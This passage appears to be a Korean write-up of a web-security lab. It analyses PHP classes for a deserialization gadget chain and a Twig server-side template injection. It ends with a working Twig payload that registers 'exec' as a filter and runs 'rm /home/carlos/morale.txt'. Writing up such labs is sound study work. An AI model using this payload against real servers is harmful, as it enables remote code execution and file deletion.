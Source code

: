 ```php
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        @unlink($this->lockFilePath());
    }

    private function lockFilePath()
    {
        return 'templates/' . $this->template_file_path . '.lock';
    }
}

?>
```

4. 소스 코드를 분석한다. 다음을 알 수 있다. 
- `Blog->desc`과 `CustomTemplate->lockFilePath` 개짓체인이 존재한다. 
- `lockFilePath`속성에 접근할 때 file_exists함수가 호출된다. 

※ 다음 코드를 보고 알 수 있다. 

```php
    private function isTemplateLocked() {
        return file_exists($this->lockFilePath());
    }
```

- 웹 사이트가 Twig 템플릿 엔진을 쓰고 있다. Twig용의 SSTI(Server Side Template Injection) 페이로드를 사용해서 역직렬화를 사용할 수 있다. Twig에서 RCE를 하기 위한 SSTI 페이로드를 찾는다. 


※ 다음 코드를 보고 알 수 있다. 

```php
    public function __wakeup() {
        $loader = new Twig_Loader_Array([
            'index' => $this->desc,
        ]);
        $this->twig = new Twig_Environment($loader);
    }
```

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#twig)에서 찾아보면 다음 페이로드를 사용할 수 있는 것을 알 수 있다. 

```php
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

위의 페이로드를 수정해서 다음과 같이 만들 수 있다. 

```php
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}
```

